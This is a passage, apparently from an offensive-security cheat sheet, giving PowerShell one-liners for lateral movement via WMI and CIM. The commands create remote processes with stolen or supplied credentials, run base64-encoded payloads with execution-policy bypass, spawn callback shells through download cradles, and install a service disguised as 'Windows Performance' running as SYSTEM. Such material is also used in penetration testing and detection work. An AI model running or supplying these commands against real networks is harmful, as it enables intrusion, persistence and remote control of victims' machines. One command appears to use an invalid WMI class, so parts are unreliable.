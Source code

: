 ```
PS C:\> Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList 'notepad.exe' -ComputerName <IP> -Credential '<DOMAIN>\<username>'
```

#### 2.1.2 - Invoke-CimMethod

```powershell
PS C:\> $username = '<username>'
$password = '<password>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword

$Opt = New-CimSessionOption -Protocol DCOM

$Session = New-CimSession -ComputerName <IP> -Credential $credential -SessionOption $Opt -ErrorAction Stop

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
	CommandLine = "powershell.exe -noni -nop -ep bypass -E <base64_payload>"
}
```

### 2.2 - Use Cases

#### 2.2.1 - Spawn Callback Shells

##### 2.2.1.1 - Download Cradle

Using `Invoke-WmiMethod` one-liner.

```powershell
PS C:\> Invoke-WmiMethod -Class Win32_NetConnection -ComputerName <IP> -Name RunPS -ArgumentList "powershell -E <base64_encoded>"
```

```powershell
PS C:\> $servicetype = [byte] 16
$errorcontrol = [byte] 1
Invoke-WmiMethod -Class Win32_Service -Name Create -ArgumentList $false, "Windows Performance", $errorcontrol, $null,$null,"WinPerf","c:\windows\system32\cmd.exe /c powershell -e <base64_encoded>",$null,$servicetype,"Manual","NT AUHORITY\SYSTEM","" -ComputerName <IP> -Credential <domain>\Administrator
```

Using `Invoke-CimMethod` one-liner.

```powershell
PS C:\> $username = '<username>'
$password = '<password>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword

$Opt = New-CimSessionOption -Protocol DCOM

$Session = New-CimSession -ComputerName <IP> -Credential $credential -SessionOption $Opt -ErrorAction Stop

$Command = "powershell.exe -noni -nop -ep bypass -E <base64_payload>"

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
	CommandLine = $Command
}
```
